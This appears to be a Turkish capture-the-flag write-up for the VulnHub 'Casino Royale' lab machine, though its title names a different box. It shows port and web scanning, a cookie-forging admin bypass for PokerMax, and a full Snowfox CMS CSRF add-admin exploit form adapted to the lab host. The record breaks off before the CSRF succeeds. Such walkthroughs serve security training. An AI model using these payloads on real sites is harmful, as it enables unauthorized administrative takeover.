







# UNKNOWNDEVICE64-V1 Kutusunun Çözümü
**Yazar:** Beren Kuday GÖRÜN<br>
**Tarih:** 13.05.2019<br>
**IP:** 192.168.171.136<br>
**Not:** Kutunun indirme adresi 'kutu' isimli klasöre eklenmiştir.<br>
**Flag:** /root/flag.txt'yi oku<br>
**Sayfa:** https://www.vulnhub.com/entry/casino-royale-1,287/

## 1.	Bilgi Toplama
### 1.1	Ip Tespiti:
```sh
root@kali:~# arp-scan -l
Interface: eth0, datalink type: EN10MB (Ethernet)
Starting arp-scan 1.9.5 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.171.1	00:50:56:c0:00:08	VMware, Inc.
192.168.171.2	00:50:56:ff:0c:9c	VMware, Inc.
192.168.171.141	00:0c:29:b0:59:ea	VMware, Inc.
192.168.171.254	00:50:56:f8:b6:d2	VMware, Inc.

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.9.5: 256 hosts scanned in 2.833 seconds (90.36 hosts/sec). 4 responded
```
Hedef makinenin IP adresi 192.168.171.141


### 1.2	Servis Tespiti:
```sh
root@kali:~# nmap -p- -A 192.168.171.141
Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-13 16:44 EDT
Nmap scan report for 192.168.171.141
Host is up (0.00065s latency).
Not shown: 65531 closed ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 2.0.8 or later
25/tcp   open  smtp    Postfix smtpd
|_smtp-commands: casino.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, 
| ssl-cert: Subject: commonName=casino
| Subject Alternative Name: DNS:casino
| Not valid before: 2018-11-17T20:14:11
|_Not valid after:  2028-11-14T20:14:11
|_ssl-date: TLS randomness does not represent time
80/tcp   open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 2 disallowed entries 
|_/cards /kboard
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Site doesn't have a title (text/html).
8081/tcp open  http    PHP cli server 5.5 or later
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
MAC Address: 00:0C:29:B0:59:EA (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.65 ms 192.168.171.141

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.72 seconds
```
ftp, smtp, ve http portlarımız bulundu. İlk olarak http portlarına bakalım ve bir ilerleyiş çizmeye çalışalım. 80. porta baktığımda sadece bir video gördüm ve bunun üzerine nikto ve dirb çalıştırmaya karar verdim.

Nikto çıktısı:
```sh
root@kali:~# nikto -h http://192.168.171.141/
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.171.141
+ Target Hostname:    192.168.171.141
+ Target Port:        80
+ Start Time:         2019-05-13 16:57:17 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.25 (Debian)
+ Server leaks inodes via ETags, header found with file /, fields: 0xdc 0x58272762faf27 
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Entry '/cards/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ Entry '/kboard/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ "robots.txt" contains 2 entries which should be manually viewed.
+ Multiple index files found: /index.php, /index.html
+ Allowed HTTP Methods: POST, OPTIONS, HEAD, GET 
+ /kboard/: KBoard Forum 0.3.0 and prior have a security problem in forum_edit_post.php, forum_post.php and forum_reply.php
+ OSVDB-3092: /cards/: This might be interesting...
+ OSVDB-3092: /includes/: This might be interesting...
+ OSVDB-3092: /install/: This might be interesting...
+ Uncommon header 'x-robots-tag' found, with contents: noindex, nofollow
+ Uncommon header 'x-ob_mode' found, with contents: 1
+ Uncommon header 'x-permitted-cross-domain-policies' found, with contents: none
+ OSVDB-3233: /icons/README: Apache default file found.
+ /phpmyadmin/: phpMyAdmin directory found
+ 8348 requests: 0 error(s) and 18 item(s) reported on remote host
+ End Time:           2019-05-13 16:58:00 (GMT-4) (43 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested


      *********************************************************************
      Portions of the server's headers (Apache/2.4.25) are not in
      the Nikto database or are newer than the known string. Would you like
      to submit this information (*no server specific data*) to CIRT.net
      for a Nikto update (or you may email to sullo@cirt.net) (y/n)? n
```
http://192.168.171.141/cards/ sayfasında kısaca bize denemeye devam dediler. Şuan da /kboard/ altında da bir şey bulamadım. Bunlara hiç bir sonuç bulamazsam tekrar bakmak üzere not aldım ve çıktıda ilerledim. phpmyadmin klasörü bulundu bu bizim için iyi bir bilgi...
install klasörü altında ilginç bir şey buldum. Burada bir web uygulamasının kurulum sayfası var. Eğer bir uygulama varsa, yapımcılar hayal gücümüzü kullanmaktan ziyade genelde bizi exploit arayışına sokmak istediklerini düşünüyorum. Bunuda notlarıma aldım ve dirb taraması ile devam ettim.

```sh
root@kali:~# dirb http://192.168.171.141/

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Mon May 13 17:05:00 2019
URL_BASE: http://192.168.171.141/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.171.141/ ----
==> DIRECTORY: http://192.168.171.141/cards/                                                            
+ http://192.168.171.141/cgi-bin/ (CODE:403|SIZE:298)                                                   
==> DIRECTORY: http://192.168.171.141/includes/                                                         
+ http://192.168.171.141/index.html (CODE:200|SIZE:220)                                                 
+ http://192.168.171.141/index.php (CODE:200|SIZE:2796)                                                 
==> DIRECTORY: http://192.168.171.141/install/                                                          
==> DIRECTORY: http://192.168.171.141/javascript/                                                       
==> DIRECTORY: http://192.168.171.141/kboard/                                                           
==> DIRECTORY: http://192.168.171.141/phpmyadmin/                                                       
+ http://192.168.171.141/robots.txt (CODE:200|SIZE:49)                                                  
+ http://192.168.171.141/server-status (CODE:403|SIZE:303)                                              
                                                                                                        
---- Entering directory: http://192.168.171.141/cards/ ----
+ http://192.168.171.141/cards/index.php (CODE:200|SIZE:51)                                             
                                                                                                        
---- Entering directory: http://192.168.171.141/includes/ ----
+ http://192.168.171.141/includes/index.html (CODE:200|SIZE:301)                                        
                                                                                                        
---- Entering directory: http://192.168.171.141/install/ ----
+ http://192.168.171.141/install/index.php (CODE:200|SIZE:2811)                                         
                                                                                                        
---- Entering directory: http://192.168.171.141/javascript/ ----
==> DIRECTORY: http://192.168.171.141/javascript/jquery/                                                
                                                                                                        
---- Entering directory: http://192.168.171.141/kboard/ ----
+ http://192.168.171.141/kboard/index.php (CODE:200|SIZE:46)                                            
                                                                                                        
---- Entering directory: http://192.168.171.141/phpmyadmin/ ----
==> DIRECTORY: http://192.168.171.141/phpmyadmin/doc/                                                   
+ http://192.168.171.141/phpmyadmin/favicon.ico (CODE:200|SIZE:22486)                                   
+ http://192.168.171.141/phpmyadmin/index.php (CODE:200|SIZE:10525)                                     
==> DIRECTORY: http://192.168.171.141/phpmyadmin/js/                                                    
==> DIRECTORY: http://192.168.171.141/phpmyadmin/libraries/                                             
==> DIRECTORY: http://192.168.171.141/phpmyadmin/locale/                                                
+ http://192.168.171.141/phpmyadmin/phpinfo.php (CODE:200|SIZE:10527)                                   
==> DIRECTORY: http://192.168.171.141/phpmyadmin/setup/                                                 
==> DIRECTORY: http://192.168.171.141/phpmyadmin/sql/                                                   
==> DIRECTORY: http://192.168.171.141/phpmyadmin/templates/                                             
==> DIRECTORY: http://192.168.171.141/phpmyadmin/themes/                                                
                                                                                                        
---- Entering directory: http://192.168.171.141/javascript/jquery/ ----
+ http://192.168.171.141/javascript/jquery/jquery (CODE:200|SIZE:267180)                                
                                                                                                        
---- Entering directory: http://192.168.171.141/phpmyadmin/doc/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                        
---- Entering directory: http://192.168.171.141/phpmyadmin/js/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                        
---- Entering directory: http://192.168.171.141/phpmyadmin/libraries/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                        
---- Entering directory: http://192.168.171.141/phpmyadmin/locale/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                        
---- Entering directory: http://192.168.171.141/phpmyadmin/setup/ ----
==> DIRECTORY: http://192.168.171.141/phpmyadmin/setup/frames/                                          
+ http://192.168.171.141/phpmyadmin/setup/index.php (CODE:200|SIZE:927)                                 
==> DIRECTORY: http://192.168.171.141/phpmyadmin/setup/lib/                                             
                                                                                                        
---- Entering directory: http://192.168.171.141/phpmyadmin/sql/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                        
---- Entering directory: http://192.168.171.141/phpmyadmin/templates/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                        
---- Entering directory: http://192.168.171.141/phpmyadmin/themes/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                        
---- Entering directory: http://192.168.171.141/phpmyadmin/setup/frames/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                        
---- Entering directory: http://192.168.171.141/phpmyadmin/setup/lib/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Mon May 13 17:05:52 2019
DOWNLOADED: 41508 - FOUND: 14
```

dirb çıktısında index.html ile index.php dosyaları bulundu ve iki dosyanında boyutları farklı. index.php sayfasına gidildiğinde /install/ klasörü altında gördüğümüz uygulamanın kurulmuş olduğunu gördüm.
Sayfanın en altında `Created with PokerMax Poker League Software` ifadesini gördüm. Bununla alakalı internette biraz araştırma yaptıktan sonra `https://www.exploit-db.com/exploits/6766` sayfasında bir not buldum. Şimdi bu notu aşağıda paylaşıyorum.
```
**************************************************************************************

Author : DaRkLiFe
Greetz : str0ke & S.W.A.T. & funkys0ul

**************************************************************************************
Script   :

PokerMax Poker League Insecure Cookie Handling Vulnerability

Download:

http://www.stevedawson.com/downloads/pokerleague.zip
**************************************************************************************

Exploit :

javascript:document.cookie = "ValidUserAdmin=admin";

**here "admin" refers to username of administrator on site

default username is "admin" given after installation of site

but if it is changed u can easily find out username of admin and then 
substitute it in place of "admin"
**************************************************************************************

Instructions :

Find the site running on this script .

Go to http://site.com/pokerleague/pokeradmin/configure.php

It will ask for login. Now in url tab run the exploit command

Then return back to http://site.com/pokerleague/pokeradmin/configure.php

Now u should be loggedin as admin and change the thing into what you want .

**************************************************************************************

THANKS ! GREETZ ! HAPPY DIWALI !
**************************************************************************************

# milw0rm.com [2008-10-16]
```
Yukarıdaki açıklamada `document.cookie = "ValidUserAdmin=admin";` payloadını tarayıcı üzerinden javascript consolundan girdikten sonra `/pokerleague/pokeradmin/configure.php` sayfasına gitmemizi istiyor. Ancak 404 aldım. Bu açıklamada uygulanın `/pokerleague/` altında kurulduğu varsayılmış gibi. Ancak `index.php` sayfasına gidildiğinde uygulamayı görmüştük. Bunun üzerine `/pokeradmin/configure.php` sayfasını denedim ve bingo!
Kullanıcı adı: `admin`
Şifre: `raise12million`

<div align="center">
    
    <p>Javascript payloadımızı ekliyoruz.</p>
</div>

<div align="center">
    
    <p>Upss</p>
</div>

<div align="center">
    
    <p>Bingo</p>
</div>


Panelde gezindikten sonra `Manage Players` linki altında oyuncu listeleri buldum ve `Valenka` isimli kullanıcı altında `/vip-client-portfolios/?uri=blog` bir link buldum. Bu adrese gidince bazı işler ters gitti. Bunun sebebi aşağıdaki fotoğrafrada olduğu gibi DNS.

<div align="center">
    
</div>

```sh
root@kali:~# nano /etc/hosts
```
```sh
127.0.0.1       localhost
127.0.1.1       kali
192.168.171.141 casino-royale.local
# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```
DNS kaydını ekledikten sonra sayfayı tekrar yeniledim. Yine bir web uygulaması varmış gibi duruyor:`Snowfox CMS`

<div align="center">
    
</div>

Bu sefer zafiyet taramısını lokalimde yapmak istedim.
```sh
root@kali:~# searchsploit snowfox cms
---------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                  |  Path
                                                                | (/usr/share/exploitdb/)
---------------------------------------------------------------- ----------------------------------------
Snowfox CMS 1.0 - Cross-Site Request Forgery (Add Admin)        | exploits/php/webapps/35301.html
---------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```
```sh
root@kali:~# cat /usr/share/exploitdb/exploits/php/webapps/35301.html
```
```html
<!--

Snowfox CMS v1.0 CSRF Add Admin Exploit


Vendor: Globiz Solutions
Product web page: http://www.snowfoxcms.org
Affected version: 1.0

Summary: Snowfox is an open source Content Management System (CMS)
that allows your website users to create and share content based
on permission configurations.

Desc: Snowfox CMS suffers from a cross-site request forgery
vulnerabilities. The application allows users to perform certain
actions via HTTP requests without performing any validity checks
to verify the requests. This can be exploited to perform certain
actions with administrative privileges if a logged-in user visits
a malicious web site.

Tested on: Apache/2.4.7 (Win32)
           PHP/5.5.6
           MySQL 5.6.14


Vulnerability discovered by Gjoko 'LiquidWorm' Krstic
                            @zeroscience


Advisory ID: ZSL-2014-5205
Advisory URL: http://www.zeroscience.mk/en/vulnerabilities/ZSL-2014-5205.php


12.11.2014

-->


<html>
  <body>
    <form action="http://10.0.18.3/snowfox/?uri=admin/accounts/create" method="POST">
      <input type="hidden" name="emailAddress" value="lab@zeroscience.mk" />
      <input type="hidden" name="verifiedEmail" value="verified" />
      <input type="hidden" name="username" value="USERNAME" />
      <input type="hidden" name="newPassword" value="PASSWORD" />
      <input type="hidden" name="confirmPassword" value="PASSWORD" />
      <input type="hidden" name="userGroups[]" value="34" />
      <input type="hidden" name="userGroups[]" value="33" />
      <input type="hidden" name="memo" value="CSRFmemo" />
      <input type="hidden" name="status" value="1" />
      <input type="hidden" name="formAction" value="submit" />
      <input type="submit" value="Submit form" />
    </form>
  </body>
</html>
```
Html dosyasını okuduktan sonra içeride bir html formu oluşturukmuş ve bir post isteği attığımızı görüyoruz ancak düzenlememiz gereken yerler var `action` kısmını `http://casino-royale.local/vip-client-portfolios/?uri=admin/accounts/create` şeklinde değiştirelim. `username`, `newPassword`, `confirmPassword` ve `emailAddress` değişiklikler yapıldıkan sonra dosyanın son hali aşağıda verilmiştir.

```sh
root@kali:~# cat casino.html 
<!--

Snowfox CMS v1.0 CSRF Add Admin Exploit


Vendor: Globiz Solutions
Product web page: http://www.snowfoxcms.org
Affected version: 1.0

Summary: Snowfox is an open source Content Management System (CMS)
that allows your website users to create and share content based
on permission configurations.

Desc: Snowfox CMS suffers from a cross-site request forgery
vulnerabilities. The application allows users to perform certain
actions via HTTP requests without performing any validity checks
to verify the requests. This can be exploited to perform certain
actions with administrative privileges if a logged-in user visits
a malicious web site.

Tested on: Apache/2.4.7 (Win32)
           PHP/5.5.6
           MySQL 5.6.14


Vulnerability discovered by Gjoko 'LiquidWorm' Krstic
                            @zeroscience


Advisory ID: ZSL-2014-5205
Advisory URL: http://www.zeroscience.mk/en/vulnerabilities/ZSL-2014-5205.php


12.11.2014

-->


<html>
  <body>
    <form action="http://casino-royale.local/vip-client-portfolios/?uri=admin/accounts/create" method="POST">
      <input type="hidden" name="emailAddress" value="user@user.local" />
      <input type="hidden" name="verifiedEmail" value="verified" />
      <input type="hidden" name="username" value="user" />
      <input type="hidden" name="newPassword" value="password" />
      <input type="hidden" name="confirmPassword" value="password" />
      <input type="hidden" name="userGroups[]" value="34" />
      <input type="hidden" name="userGroups[]" value="33" />
      <input type="hidden" name="memo" value="CSRFmemo" />
      <input type="hidden" name="status" value="1" />
      <input type="hidden" name="formAction" value="submit" />
      <input type="submit" value="Submit form" />
    </form>
  </body>
</html>
```
Şİmdi bu dosyayı `/var/www/html` altına taşıyıp apache serverı başlatalım.

```sh
root@kali:~# mv casino.html /var/www/html/
root@kali:/var/www/html# service apache2 start
```
Yukarıdaki kodumuzda csrf zafiyetinden yararlanmak istiyoruz ancak bunun için sunucu tarafından bir istek almamız lazım ki işe yarasın. Bunun hakkında biraz düşünmemiz lazım. Karşı taraftan bizim makineye nasıl istek alabiliriz? 8081. portta şuanlık bir şey bulamadım. Uzun bir süre makineyi nasıl çözebilirim diye aradım beni şuana kadar en çok yoran makine bu oldu sebebi is gerçeğe yakın bir senaryo yapalım derken yapımcıların işi abartmasından kaynaklanıyor.
Bir ara kalemi kağıdı elime alıp nelere sahibim ve bunlarla ne yapabilirim diye düşünmeye başladım. Elimizde bir html sayfası var ve bununla exploit edebileceğimiz söyleniyor. Ancak html içerisindeki açıklamayı okuduğumuzda exploitin csrf zafiyetini kullanarak exploit ettiğini söylüyor. CSRF için karşı tarafta bir kişi olması gerekmez mı? Biz ona bir link atacağız, link içerisindeki javascript ya da html kodlarımız bir şekilde bu zafiyetten yararlanarak bize bazı yetkiler verecek ama makineye karşıyız. Peki bunu nasıl yapacağız?
Bu durumu düşünürken ilk başta bunun olmayacağını sanmıştım ancak başka bir yol olmadığı için denemeye karar verdim. Sayfalarda dolaşırken bir de ne göreyim?


<div align="center">
    
    <p>Bingo</p>
</div>

